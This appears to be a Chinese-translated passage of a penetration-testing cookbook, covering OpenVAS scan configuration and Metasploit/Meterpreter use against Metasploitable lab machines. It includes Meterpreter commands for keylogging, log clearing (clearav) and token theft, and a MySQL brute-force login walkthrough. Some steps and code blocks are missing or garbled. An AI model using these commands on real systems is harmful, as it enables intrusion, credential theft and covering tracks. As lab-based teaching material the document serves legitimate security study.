

### 漏洞

我们可以通过 OpenVAS 扫描一些漏洞。

## 如何操作...

在本次配谱中，我们通过 `127.0.0.1:9392` 浏览器中打开 OpenVAS 界面并登录。
1. 进入 `Configuration`|`Local Vulnerabilities`。
3. 在 `Select all families` 框中勾选。
4. 选中的本地漏洞包括：
   - 合规性 (Compliance)
   - 默认账户 (Credentials)
   - 拒绝服务 (Denial of Service)
   - FTP
   - Ubuntu 安全检查 (Ubuntu Security Checks)
5. 点击 `Save Config`。


### 目标

我们可以通过 OpenVAS 扫描一些漏洞。

## 如何操作...

现在进入 `Configuration`|`Targets`。
1. 创建一个新目标。
2. 使用以下方式之一输入主机：
   - 输入单个地址：`192.168.0.10`
   - 输入地址范围：`192.168.0.1-20`
3. 点击 `onCreate Target`。

### 

现在选择 `Scan Management`|`New Task` 并执行以下任务：
1. 输入任务名称。
2. 输入注释（可选）。
3. 选择你的扫描配置。在此配谱中，我们使用 `Local Vulnerabilities`。
4. 选择扫描目标。在此配谱中，我们使用 `Local Network`。
6. 点击 `onCreate Task`。

7. 现在进入 `Scan Management`|`Tasks`。
8. 点击扫描旁边的播放按钮。在此配谱中，我们使用 `Local Vulnerability Scan`。

扫描完成后，你可以通过查看报告来查看结果：
1. 现在进入 `Scan Management`|`Tasks`。
2. 点击 `Local Vulnerability Scan` 旁边的紫色放大镜。
3. 点击下载箭头查看报告。


### OpenVAS - 查找网络漏洞

在本教程中，我们将使用 OpenVAS 来扫描网络漏洞。这些是针对我们目标网络中设备的特定漏洞。

### 准备工作

* Windows XP
* Windows 7
* Metasploitable 2.0
* 任何发行发行版的 Linux

## 如何操作...

让我们通过打开 Mozilla Firefox 浏览器，开始使用 OpenVAS 查找网络漏洞的过程：

1. 访问 `http://127.0.0.1:9392` 并登录 OpenVAS。
3. 输入扫描名称。在本教程中，我们将使用 `Network Vulnerabilities`（网络漏洞）。
4. 对于基础配置（base），选择 `Empty`、静态且快速的选项。此选项允许我们从零开始创建自己的配置。



### 漏洞评估

5. 点击 `onCreate Scan Config:`。
6. 我们现在想要编辑扫描配置。点击 `Network Vulnerabilities` 旁边的扳手图标。
7. 按 `Ctrl+F` 在查找栏中输入 `Network`。

一个漏洞族是一组漏洞。选定的漏洞包括：
* 暴力破解
* 缓冲区溢出
* CISCO
* 合规性
* 凭据
* 数据库
* 默认账户
* 拒绝服务
* Finger 滥用
* 防火墙
* 远程获取 Shell
* 通用
* 恶意软件
* Netware
* NMAP NSE
* 点点文件共享
* 端口扫描器
* 权限提升
* RPC
* 远程文件访问
* SMTP 问题
* SNMP
* 服务检测
* 设置
* 无线服务
9. 点击 `Save Config`。
10. 现在进入 `Configuration|Targets`：


11. 创建新目标并执行以下任务：
    1. 输入目标名称。
    2. 使用以下方法之一输入主机：
        * 仅输入一个地址：`192.168.0.10`
        * 输入用逗号分隔的多个邮件地址：`192.168.0.10,192.168.0.15`
        * 输入地址范围：`192.168.0.1-20`
12. 点击 `Save Target`。
13. 现在进入 `Scan Management|New Task` 并执行以下操作：
    1. 输入任务名称。
    3. 选择你的扫描配置。在此情况下选择 `Network Vulnerabilities`。
    4. 选择扫描目标。在此情况下选择 `Local`。
    5. 保持所有选项为默认值。
    6. 点击 `onCreate Task:`。
14. 现在进入 `Scan Management|Tasks`。
15. 点击我们扫描旁边的播放按钮。在此情况下为 `Network Vulnerability`。


## 工作原理...
在本教程中，我们启动了 OpenVAS 并登录了它的 Web 界面。我们配置 OpenVAS 来搜索一组网络漏洞。最后，我们选择了目标并完成了扫描。OpenVAS 随后根据我们 NVT 馈中包含的已知漏洞列表对目标进行了扫描。

### 更多...

一旦完成扫描，你可以通过查看报告查看结果：
1. 进入 `Scan Management|Tasks`。
2. 点击 `Network Vulnerabilities` 旁边的紫色放大镜。
3. 点击箭头查看报告：


### OpenVAS - 查找 Linux 特有漏洞

在本教程中，我们将使用 OpenVAS 扫描 Linux 漏洞。这些是针对我们目标网络中 Linux 机器特定漏洞。

### 准备工作

为了完成本教程，你需要一个或多个虚拟机进行测试：
* Metasploitable 2.0
* 任何发行版的 Linux


让我们通过打开 Firefox 浏览器，开始使用 OpenVAS 查找 Linux 特有漏洞：

1. 访问 `http://127.0.0.1:9392` 并登录 OpenVAS。
2. 进入 `Configuration|Scan Configs`：
3. 输入扫描名称。在本教程中，我们将使用 `Linux Vulnerabilities`（Linux 漏洞）。
4. 对于基础配置，选择 `Empty`、静态且快速的选项。此选项允许我们从零开始创建自己的配置。



6. 我们现在想要编辑扫描配置。点击 `Linux Vulnerabilities` 旁边的扳手图标。
7. 按 `Ctrl+F` 在查找栏中输入 `Linux`。
8. 为找到的每个本地漏洞族，在 `Select all NVTs` 框中勾选。

选定的漏洞包括：
* 暴力破解
* 缓冲区溢出
* 合规性
* 凭据
* 数据库
* 拒绝服务
* FTP
* Finger 滥用
* 远程获取 Shell
* 通用
* 恶意软件
* Netware
* NMAP NSE
* 端口扫描器
* 权限提升
* RPC
* 远程文件访问
* SMTP 问题
* SNMP
* 服务检测
* 设置
* 无线服务
* Web 服务器
9. 点击 `Save Config`。
10. 现在进入 `Configuration|Targets`：
    1. 输入目标名称。
    2. 使用以下方法之一输入主机：
        * 仅输入一个地址：`192.168.0.10`
        * 输入用逗号分隔的多个邮件地址：`192.168.0.10,192.168.0.15`
        * 输入地址范围：`192.168.0.1-20`
12. 点击 `Save Target`。



13. 现在进入 `Scan Management|New Task` 并执行以下操作：
    2. 输入注释（可选）。
    3. 选择你的扫描配置。在此情况下选择 `Network Vulnerabilities`。
    4. 选择扫描目标。在此情况下选择 `Local`。
    5. 保持所有选项为默认值。
    6. 点击 `onCreate Task:`。
14. 现在进入 `Scan Management|Tasks`。
15. 点击我们扫描旁边的播放按钮。在此情况下为 `Network Vulnerability`。

### 漏洞评估


在本教程中，我们启动了 OpenVAS 并登录了它的 Web 界面。我们配置 OpenVAS 来搜索一组网络漏洞。最后，我们选择了目标并完成了扫描。OpenVAS 随后根据我们 NVT 馈中包含的已知漏洞列表对目标进行了扫描。

### 更多...

一旦完成扫描，你可以通过查看报告查看结果：
1. 进入 `Scan Management|Tasks`。
2. 点击 `Network Vulnerabilities` 旁边的紫色放大镜。
3. 点击箭头查看报告：


### OpenVAS - 查找 Windows 特有漏洞

在本教程中，我们将使用 OpenVAS 扫描 Windows 漏洞。这些是针对我们目标网络中 Windows 机器特定漏洞。

### 准备工作

为了完成本教程，你需要一个或多个虚拟机进行测试：
* Windows XP
* Windows 7


## 如何操作...

让我们通过打开 Mozilla Firefox 浏览器，开始使用 OpenVAS 查找 Windows 特有漏洞：

1. 访问 `http://127.0.0.1:9392` 并登录 OpenVAS。
2. 进入 `Configuration|Scan Configs`：
3. 输入扫描名称。在本教程中，我们将使用 `Windows Vulnerabilities`。
4. 对于基础配置，选择 `Empty`、静态且快速的选项。
6. 我们现在想要编辑扫描配置。点击 `Windows Vulnerabilities` 旁边的扳手图标。


7. 对于发现的家族，在 `Select all NVT's`（选择所有 NVT）框中打钩。

所选漏洞有：
- 暴力攻击
- 缓冲区溢出
- 凭据
- 数据库

135


### 漏洞评估
- 默认账户
- 拒绝服务
- FTP
- 通用
- 恶意软件
- NMAP NSE
- 端口扫描器
- 权限提升
- 产品检测
- RPC
- 远程文件访问
- SMTP 问题
- SNMP
- Web 服务器
- Windows
- Windows: 微软安全公告 (Microsoft Bulletins 处通常保留英文或译为 Windows: Microsoft Bulletins)

136


### 第 5 章
8. 点击 `Save Config`（保存配置）。
9. 现在进入 `Configuration|Targets`（配置|目标）：
    1. 输入目标名称。
    2. 使用以下方法之一输入主机：
        - 仅输入一个地址：`192.168.0.10`
        - 输入用 `,` 隔开的多个地址：`192.168.0.10,192.168.0.115`
        - 输入地址范围：`192.168.0.1-20`
11. 点击 `Save Target`（保存目标）。
12. 现在进入 `Scan Management|New Task`（扫描管理|新任务），并执行以下任务：
    1. 输入任务名称。
    2. 输入注释（可选）。
    3. 选择你的扫描配置。在此情况下选择 `Windows Vulnerabilities`（Windows 漏洞）。
    5. 将所有其他选项保持默认级别。

137


### 漏洞评估
6. 点击 `onCreate Task`（创建任务）：
13. 现在进入 `Scan Management|Tasks`（扫描管理|任务）。
14. 点击我们扫描旁边的播放按钮。在此情况下为 `Windows Vulnerability Scan`（Windows 漏洞扫描）。

在本教程中，我们启动了 OpenVAS 并登录了它的 Web 界面。然后，我们配置了 OpenVAS 来搜索一组 Windows 漏洞。最后，我们选择了我们的目标并完成了扫描。OpenVAS 随后根据我们的 NVT 馈送中包含的已知漏洞列表对目标系统进行了扫描。

138


### 第 5 章
### 更多内容...
一旦完成扫描，你就可以通过查看报告查看结果：
1. 进入 `Scan Management | Tasks`（扫描管理 |任务）。
2. 点击 `Windows Vulnerabilities Scan` 旁边的紫色放大镜。

139


# 6 漏洞利用

在本章中，我们将涵盖：
- 安装和配置 Metasploitable
- 掌握 Armitage（这是 Metasploit 的图形化管理工具）
- 掌握 Metasploit 控制台 (`MSFCONSOLE`)
- 掌握 Meterpreter
- Metasploitable MySQL
- Metasploitable PostgreSQL
- Metasploitable Tomcat
- Metasploitable PDF
- 实现 `browser_autopwn`

## 介绍
一旦我们完成了漏洞扫描步骤，我们现在就拥有了尝试针对我们的目标系统启动利用程序所需的知识。在本章中，我们将检查使用各种工具，包括测试系统的“瑞士军刀”——Metasploit。


### 漏洞利用
### 安装和配置 Metasploitable
在本教程中，我们将安装、配置并启动 Metasploitable 2。Metasploitable 是一个基于 Linux 的操作系统，容易受到各种 Metasploit 攻击。它由 Metasploit 框架的所有者 Rapid7 设计。Metasploitable 是熟悉 Meterpreter 的绝佳方式。

### 准备工作
执行此教程我们需要：
- 与互联网的连接
- 你的 VirtualBox PC 上的可用空间
- 一个解压缩工具（在本例中我们在 Windows 机器上使用 7-Zip）
## 如何操作...
让我们从下载 Metasploitable 2 开始教程。从 SourceForge 获取程序包将是我们最安全的选择：
1. 从以下链接下载 Metasploitable 2：`http://sourceforge.net/projects/metasploitable/files/Metasploitable2/`
2. 将文件保存到硬盘上的某个位置。
3. 解压文件。
4. 将文件夹的内容存放在你存储虚拟磁盘的位置。
5. 打开 VirtualBox 并点击 `New`（新建）按钮：

142

### 第 6 章
6. 点击 `Next`（下一步）。
7. 选择 `Operating System: Linux`（操作系统: Linux）和 `Version: Ubuntu`（版本: Ubuntu）的同时输入名称 `Metasploitable 2`，并如下所示所示 `Next`：
143


### 漏洞利用
8. 如果你有可用内存，选择 `512 MB` 的 RAM 并点击 `Next`：
9. 选择一个现有磁盘，并从你下载和保存 `Metasploitable 2` 文件夹的地方选择 VDMK 文件：
144

### 第 6 章
10. 你的虚拟磁盘窗口将如下截图所示。在这种情况下，我们完全不需要更新磁盘空间。这是因为使用 Metasploitable 时，你是在攻击系统，而不是将其作为操作系统使用。
11. 点击 `Create`（创建）：
12. 点击它的名称并点击 `Start`（启动）按钮启动 Metasploitable 2。

145


### 漏洞利用
在本教程中，我们在 Virtualbox 上设置了 Metasploitable 2。我们从 sourceforge.net 下载 Metasploitable 开始教程。接下来，我们配置了 VDMK 在 virtualbox 内部运行，并以启动系统结束。

### 掌握 Armitage，这是 Metasploit 的图形化管理工具
较新版本的 Metasploit 使用了一个名为 Armitage 的图形化前端工具。理解 Armitage 非常重要，因为它最终通过向你提供信息来让你对 Metasploit 的使用变得更容易。它包含了 Metasploit 控制台，并通过其标签页功能允许你同时查看多个 Metasploit 或 Meterpreter 会话。

### 准备工作
完成此教程需要连接互联网或内部网络。

## 如何操作...
让我们开始学习 Armitage：

146


### 第 6 章
2. 在 Armitage 登录界面，点击 `Connect`（连接）按钮：
147


### 漏洞利用
4. 随后你将看到 Armitage 主界面。我们现在讨论主屏幕上的三个区域（如下截图所示标记为 `A.`、`B.` 和 `C.`）：
- `A.`：此区域显示预配置的模块。你可以使用模块列表下方的空间搜索模块。
- `B.`：此区域显示我们能够运行利用程序的活动目标。
- `C.`：此区域显示多个 Metasploit 标签页，允许同时运行和显示多个 Meterpreter 或控制台会话。

148


### 第 6 章
启动 Armitage 的另一种方法是在终端窗口输入以下命令：
armitage
```

### 参见
- 要了解更多关于 Meterpreter 的信息，请参见掌握 Meterpreter 章节


- `set optionname module`: 此命令允许你为指定的模块设置各种选项
- `exploit`: 此命令启动漏洞利用模块
- `run`: 此命令启动非漏洞利用模块
- `search module`: 此命令允许你搜索单个模块
- `exit`: 此命令允许你退出 `MSFCONSOLE`

### 准备工作

完成此配方需要连接到互联网或内部网络。


### 漏洞利用

## 如何操作...

让我们开始对 MSFCONSOLE 的探索：

1. 打开一个命令提示符。
2. 使用以下命令启动 MSFCONSOLE：
```
```
3. 使用 `search` 命令搜索所有可用的 Linux 模块。在我们想要执行某项操作时，搜索我们要使用的模块总是个好主意。此做的主要原因是，在 Metasploit 的不同版本之间，模块的路径可能发生变化：
```
search linux
```
4. 使用 John the Ripper Linux 密码破解模块：
```
use auxiliary/analyzse/jtr_linux
```


第 6 章

5. 使用以下命令显示模块的可用选项：
```
show options
```
6. 现在我们已经有了可以在该模块上运行的选项列表，可以使用 `set` 命令设置单个选项。让我们设置 `JOHN_PATH` 选项：
```
set JOHN_PATH /usr/share/metasploit-framework/data/john/wordlists/ password.lst
7. 现在输入 `exploit` 命令来运行我们的利用：
```
exploit
```

### 还有更多...

一旦你通过 MSFCONSOLE 访问了主机，你就必须使用 Meterpreter 来分发你的载荷。MSFCONSOLE 管理你的会话，但 Meterpreter 负责实际的载荷和漏洞利用交互。

## 精通 Metasploit CLI (MSFCLI)
在这个配方中，我们将探索 Metasploit CLI (MSFCLI)。Metasploit 需要使用接口来执行其任务。MSFCLI 就是这样一种接口。它是学习 Metasploit 或测试/编写新漏洞利用的良好接口。在使用脚本和对任务应用基础自动化处理的情况下，它也表现良好。

使用 MSFCLI 的一个主要问题是你一次只能打开一个 shell。你还会注意到，当我们探索某些命令时，它的运行速度比 MSFCONSOLE 慢一点，而且稍微复杂一点。最后，你必须知道你想要运行的精确漏洞利用程序才能使用 MSFCLI。这对于不熟悉 Metasploit 漏洞利用列表的新渗透测试人员来说，可能有些困难。

151

### 漏洞利用

MSFCLI 的某些命令如下：

- `msfcli -h`: 显示 MSFCLI 帮助文件
- `msfcli [EXPLOIT 路径] [options = value]`: 这是启动漏洞利用的语法

### 准备工作

完成此配方需要连接到互联网或内部网络。

## 如何操作...

让我们开始对 Metasploit CLI 的探索：
1. 使用以下命令启动 Metasploit CLI (MSFCLI)。请耐心等待，取决于你的系统速度，这可能需要一些时间。另外注意，当 MSFCLI 加载时，将显示可用漏洞利用程序的列表。
```
msfcli
```
2. 显示 MSFCLI 帮助文件：
```
msfcli -h
```

152
第 6 章

3. 在我们的演示中，我们将执行圣诞树扫描（Christmas Tree Scan）。我们将选择选项 A 来显示模块的高级选项：
```
msfcli auxiliary/scanner/portscan/xmas A
```
关于圣诞树扫描的更多信息，请查看以下 URL：
http://en.wikipedia.org/wiki/Christmas_tree_packet

153
### 漏洞利用

4. 此外，你可以使用 `S` 模式列出当前模块的摘要。摘要是查看你尝试运行的漏洞利用的所有可用选项的极佳方法。许多选项是可选的，但通常有几个是必须的，这允许你设置目标或你尝试启动漏洞利用的端口。
```
msfcli auxiliary/scanner/portscan/xmas S
```
5. 要显示可用选项列表，我们使用 `O` 模式。摘要模式是查看你尝试运行的漏洞利用的所有可用选项的极佳方法。许多选项是可选的，但通常有几个是必须的，这允许你设置目标或你尝试启动漏洞利用的端口。
```
msfcli auxiliary/scanner/portscan/xmas O
```
```
msfcli auxiliary/scanner/portscan/xmas E
```

154

第 6 章

## 工作原理...


- **漏洞 (Vulnerabilities)**：这些是对特定应用程序、软件或协议的已知和未知的缺陷。
- **漏洞利用 (Exploits)**：这些是为了利用发现的漏洞模块。
- **载荷 (Payloads)**：一旦漏洞利用成功运行，必须将载荷交付到受攻击机器上，以便创建 shell、运行各种命令、添加用户等。

155

### 漏洞利用

一旦你通过 MSFCLI 或 MSFCONSOLE 访问了主机，你就必须使用 Meterpreter 来分发你的载荷。MSFCONSOLE 管理你的会话，但 Meterpreter 负责实际的载荷和漏洞利用交互。
### 另

- 要了解更多关于 Meterpreter 的信息，请查看精通 Meterpreter 部分

## 精通 Meterpreter

一旦你通过 Armitage、MSFCLI 或 MSFCONSOLE 访问了主机，你就必须使用 Meterpreter 来分发你的载荷。MSFCONSOLE 管理你的会话，但 Meterpreter 负责实际的载荷和漏洞利用交互。

Meterpreter 使用的一些命令包括：

- `background`: 此命令允许 Meterpreter 会话在后台运行。该命令将带回到 MSF（Metasploit）提示符。
- `download`: 此命令允许你从受害者机器下载文件。
- `upload`: 此命令允许你将文件上传到受害者机器。
- `execute`: 此命令允许你在受害者机器上运行命令。
- `shell`: 此命令允许在受害者机器上运行 Windows shell 提示符（仅限 Windows 主机）。
- `session -i`: 此命令允许你切换会话。

### 准备工作

需要满足以下要求：
- 连接到内网或互联网
- 使用 Metasploit 通过 Armitage、MSFCLI 或 MSFCONSOLE 创建的目标系统的活动会话

156

第 6 章

## 如何操作...

1. 首先，我们从 MSFCONSOLE 显示的活动会话开始。


2. 开始记录被攻击系统用户输入的按键：

```
keyscan_start
```


```
keyscan_dump
```

4. 停止记录被攻击系统用户输入的按键：

```
keyscan_stop
```
5. 删除被攻击系统上的一个文件：

```
del exploited.docx
```

6. 清除被攻击系统上的事件日志：

```
clearav

7. 显示运行中进程的列表：

```
ps
```

8. 使用 `kill[pid]` 语法杀死被攻击系统上的指定进程：

```
```

9. 尝试从我们的被攻击系统中窃取身份验证令牌（token）：

```

steal_token
```

## 工作原理...

### 更多内容...
当我们针对 Linux 的主机使用 `Meterpreter` 时，我们能够像操作该机器一样，针对我们的目标运行 Linux 命令。

157


### 漏洞利用

## Metasploitable MySQL
在这个配方中，我们将探索如何使用 `Metasploit` 通过 `MySQL Scanner` 模块攻击 MySQL 数据库服务器。作为许多网站平台（包括 `Drupal` 和 `Wordpress`）的首选数据库，许多网站目前正在使用 MySQL 数据库服务器。这使其成为 Metasploitable MySQL 攻击的简单目标！

### 准备工作
需要满足以下要求：
- 连接到内部网络
- 在我们的黑客实验室中运行 Metasploitable
- 用于执行字典攻击的字典列表（Wordlist）

## 如何操作...
让我们通过打开终端窗口开始 MySQL 攻击：

1. 打开终端窗口。
2. 启动 `MSFCONSOLE`：
```
msfconsole
```
3. 搜索所有可用的 MySQL 模块：
```
search mysql
```
158

第 6 章
4. 使用 MySQL Scanner 模块：
```
use auxiliary/scanner/mysql/mysql_login
```
5. 显示模块的可用选项：
```
show options
```
6. 将 `RHOST` 设置为你的 Metasploitable 2 机器或目标主机：
```
set RHOST 192.168.10.111
```
7. 设置你的用户名文件位置。这是你选择的用户文件列表：
```
set user_file /root/Desktop/usernames.txt
```
8. 设置你的密码文件位置。这是你选择的密码文件列表：
```
set pass_file /root/Desktop/passwords.txt
```
159

9. 运行利用：
```
Exploit
```
10. `Metasploit` 会运行并尝试两个文件中包含的所有用户名和密码的组合。在通用的用户名和密码组合旁边找到 `+` 号。

## 工作原理...
在这个配方中，我们使用 `Metasploit` 的 `MSFCONSOLE` 利用了我们目标 Metasploitable 2 主机上的 MySQL 漏洞。我们首先启动控制台并搜索所有已知的 MySQL 漏洞。在选择 MySQL 登录利用（它允许我们暴力破解 MySQL 登录）后，我们设置了选项并执行了利用。利用提供的用户名和密码文件，`Metasploit` 尝试暴力破解 MySQL 数据库。

### 更多内容...
在这个配方中，我们使用了自定义生成的用户名和密码文件。生成用户名字典列表和密码文件有许多方法，在第 8 章“密码攻击”中提供了几种方法。

## Metasploitable PostgreSQL
